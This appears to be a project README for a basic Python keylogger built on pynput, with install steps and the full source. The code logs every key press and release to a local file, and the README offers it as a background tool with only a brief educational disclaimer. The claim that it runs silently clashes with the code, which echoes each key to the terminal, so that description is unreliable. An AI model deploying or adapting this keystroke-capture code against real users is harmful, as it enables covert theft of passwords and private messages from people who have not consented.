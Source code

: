 🔑 Keylogger in Python 🖥️
📌 About
This is a basic keylogger built using Python and pynput library. It records all keystrokes and logs them into a file named keylog.txt. The keylogger runs in the background and captures both normal and special keys.

🚀 Features
✅ Logs all keystrokes (letters, numbers, and symbols)
✅ Records special keys (Enter, Space, Backspace, etc.)
✅ Stores keystrokes in a log file (keylog.txt)
✅ Runs silently in the background
✅ Safe exit by pressing ESC

🛠️ Installation
1️⃣ Clone the Repository:

bash
Copy
Edit
git clone https://github.com/Kalyan16114421/KeyLogger
cd keylogger-python
2️⃣ Install Dependencies:

bash
Copy
Edit
pip install pynput
3️⃣ Run the Keylogger:

bash
Copy
Edit
python keylogger.py
🛑 How to Stop the Keylogger?
🚀 Press ESC key to safely stop the keylogger.
🛑 Alternatively, use Ctrl + C in the terminal to force stop it.
🔴 If running in the background, end "Python" process via Task Manager.

📜 Code Implementation
python
Copy
Edit
'''python
from pynput import keyboard

def on_press(key):
   try:
      print(f"Alphanumeric key '{key.char}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
         f.write(f"Alphanumeric key '{key.char}' pressed\n")
   except AttributeError:
      print(f"Special key '{key}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
        f.write(f"Special key '{key}' pressed\n")

def on_release(key):
   print(f"'{key}' released") 
#print to terminal
   with open("keylog.txt", "a") as f:
      f.write(f"'{key}' released\n")

   if key == keyboard.Key.esc:
    # Stop listener
      return False

# Collect events until released
with keyboard.Listener(
on_press=on_press,
on_release=on_release) as listener:
    listener.join()
    ⚠️ Disclaimer
🛑 This project is for educational purposes only.
🔴 Unauthorized use of keyloggers is illegal. Use it responsibly.
